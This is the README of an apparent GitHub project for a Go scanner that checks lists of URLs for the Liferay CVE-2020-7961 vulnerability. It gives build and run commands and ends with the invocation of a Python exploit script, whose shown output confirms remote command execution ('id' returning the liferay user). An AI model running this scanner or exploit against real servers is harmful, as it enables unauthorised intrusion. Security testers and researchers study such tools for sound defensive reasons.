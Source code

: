 # liferay-scanner
Vuln Liferay scanner.

```
Liferay scanner for CVE-2020-7961
```

About
---
```
Code Completely Ripped off from @tomnomnom - he is a hero if you meet him buy him a bevvie!!

if vuln it should add it to liferay.log
Mainly made by tomnomnom and i changed the request to look for liferay.
```

Build
---

```
go get -u github.com/fatih/color
go build liferay.go
```


How to run
---

`cat list.txt | ./liferay`

Note
---
This requires a list of urls with https:// or http://



Liferay Exploit
---

```
python liferay-exploit.py -t https://myserver -c id
``

```
Status code:   200
Response body: b'uid=1002(liferay) gid=1002(liferay) groups=1002(liferay)\n'
```
